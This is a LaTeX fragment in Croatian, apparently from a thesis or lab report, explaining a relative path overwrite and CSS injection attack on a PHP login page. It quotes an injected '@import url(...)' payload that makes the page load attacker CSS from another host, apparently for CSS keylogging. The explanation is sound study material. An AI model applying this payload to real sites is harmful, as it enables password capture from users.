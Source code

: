 \documentclass[12pt, oneside, onecolumn]{book}
\begin{document}
{\begin{figure}[H]
	\begin{center}
		\includegraphics[width=\textwidth]{css_val.jpg}
		\caption{Web stranica poslije unosa lozinke} \label{fig:css_val}
	\end{center}
\end{figure}

\subsection{Opis napada}
Kako je opisana web stranica CSS učitava preko \texttt{link} elementa tako da \texttt{href} atribut ima vrijednost \texttt{keyloger.css}. Pošto nije dana puna putanja do \texttt{keyloger.css} dokumenta, PHP server interpretira tu vrijednost kao relativnu putanju u odnosu na putanju web stranice, odnosno dokumenta \texttt{second.php} u kojoj se nalazi kod za ovu web stranicu. Međutim, ako se na kraj URL-a doda znak \texttt{/} stranica se prikazuje bez da je učitan \texttt{keyloger.css}. Kako se na ovoj stranici nalazi tekst \texttt{{}@import url("http://localhost:8080/mid.css");}, tako stranica interpretira ovaj dio HTML-a kao CSS. Razlog tašto se to događa je taj što znakovi \texttt{\{\}} isprovociraju CSS parser da prepozna taj dio HTML-a kao CSS. Ovo se može vidjeti na sljedećoj slici \ref{fig:css_slh}.

}
\end{document}
